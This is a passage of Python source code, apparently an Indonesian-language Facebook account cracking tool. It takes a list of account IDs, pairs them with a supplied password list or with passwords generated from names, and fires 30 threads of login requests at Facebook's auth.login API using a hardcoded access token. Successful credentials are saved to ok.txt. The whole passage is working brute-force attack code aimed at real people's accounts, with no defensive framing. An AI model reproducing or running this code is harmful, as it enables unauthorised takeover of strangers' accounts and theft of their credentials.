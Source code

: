             try:
              self.apk=isifile
              self.fs=open(self.apk).read().splitlines()
              break
            except Exception as e:
              print((k+"["+p+"!"+k+"]"+p+" %s"%e))
              continue
          self.fl=[]
          print((k+"["+p+"•"+k+"]"+p+" Example : sayang,bismillah,123456"))
          self.pw=input(k+"["+p+"•"+k+"]"+p+" Password List : ").split(",")
          if len(self.pw) ==0:
            continue
          for i in self.fs:
            try:
              self.fl.append({"id":i.split("<=>")[0],"pw":self.pw})
            except:
              continue
        except Exception as e:
          print(("  %s"%e))
          continue
        print((k+"\n["+p+"•"+k+"]"+p+"Proses Crack Sedang berjalan..."+k+"\n["+p+"•"+k+"]"+p+" Akun [OK] Disimpan Ke : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Akun [cp] Disimpan Ke : cp.txt\n"))
        ThreadPool(30).map(self.brute,self.fl)
        #os.remove(self.apk)
        exit()
        break
      elif f in["d","D"]:
        try:
          while True:
            try:
              self.apk=isifile
              self.fs=open(self.apk).read().splitlines()
              break
            except Exception as e:
              print(e)
              continue
          self.fl=[]
          for i in self.fs:
            try:
              self.fl.append({"id":i.split("<=>")[0],"pw":generate(i.split("<=>")[1])})
            except:continue
        except:
          continue
        print((k+"\n["+p+"•"+k+"]"+p+"Proses Crack Sedang berjalan..."+k+"\n["+p+"•"+k+"]"+p+" Akun [OK] Disimpan Ke : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Akun [cp] Disimpan Ke : cp.txt\n"))
        ThreadPool(30).map(self.brute,self.fl)
        os.remove(self.apk)
        exit()
        break
  def bruteRequest(self, username, password):
    global ok,cp,ttl
    params = {"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",  "format": "JSON", "sdk_version": "2", "email": username, "locale": "en_US", "password": password, "sdk": "ios", "generate_session_cookies": "1", "sig": "3f555f99fb61fcd7aa0c44f58f522ef6"}
    api = "https://b-api.facebook.com/method/auth.login"
    response = requests.get(api, params=params)
    if re.search("(EAAA)\\w+", response.text):
      self.ok.append(username + " • " + password)
      print(("\r\x1b[0;32m[\x1b[0;37mOK\x1b[0;32m] %s • %s %s               "%(username,password,N)))
      ok.append(username + " • " + password)
      save = open("ok.txt", "a")
      save.write(str(username) + " • " + str(password) + "\n")
      save.close()
      return True